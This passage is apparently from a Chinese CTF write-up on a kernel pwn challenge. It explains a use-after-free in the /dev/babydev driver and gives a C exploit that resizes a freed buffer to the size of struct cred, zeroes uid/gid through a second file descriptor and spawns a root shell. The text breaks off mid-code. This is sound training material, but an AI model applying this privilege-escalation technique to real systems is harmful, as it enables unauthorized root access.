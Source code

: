 ```c
#endif
#ifdef CONFIG_SECURITY
    void        *security;  /* subjective LSM security */
#endif
    struct user_struct *user;   /* real user ID subscription */
    struct user_namespace *user_ns; /* user_ns the caps and keyrings are relative to. */
    struct group_info *group_info;  /* supplementary groups for euid/fsgid */
    struct rcu_head rcu;        /* RCU deletion hook */
};
```

于是我们得出利用流程

- 申请两次设备
- 使用ioctl将第一个设备的babydev_struct缓冲区大小改为0xa8.  **sizeo(struct cred)**

- 释放第一个设备
- fork一个进程，然后cred会申请到刚才被释放的babydev_struct缓冲区中，产生一个UAF
- 通过第二个设备的写功能，将uid和gid修改为0

exploit需要用c来编写，在mac下编译我尝试用x86_64-elf-gcc做交叉编译,不过有一些问题，所以还是尽量直接用ubuntu编译吧。

```
sudo port install x86_64-elf-gcc
```

完整的Exploit,参考ctfwiki上的exploit

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <stropts.h>
#include <sys/wait.h>
#include <sys/stat.h>

int main()
{
	// 打开两次设备
	int fd1 = open("/dev/babydev", 2);
	int fd2 = open("/dev/babydev", 2);

	// 修改 babydev_struct.device_buf_len 为 sizeof(struct cred)
	ioctl(fd1, 0x10001, 0xa8);

	// 释放 fd1
	close(fd1);

	// 新起进程的 cred 空间会和刚刚释放的 babydev_struct 重叠
	int pid = fork();
	if(pid < 0)
	{
		puts("[*] fork error!");
		exit(0);
	}

	else if(pid == 0)
	{
		// 通过更改 fd2，修改新进程的 cred 的 uid，gid 等值为0
		char zeros[30] = {0};
		write(fd2, zeros, 28);

		if(getuid() == 0)
		{
			puts("[+] root now.");
			system("/bin/sh");
```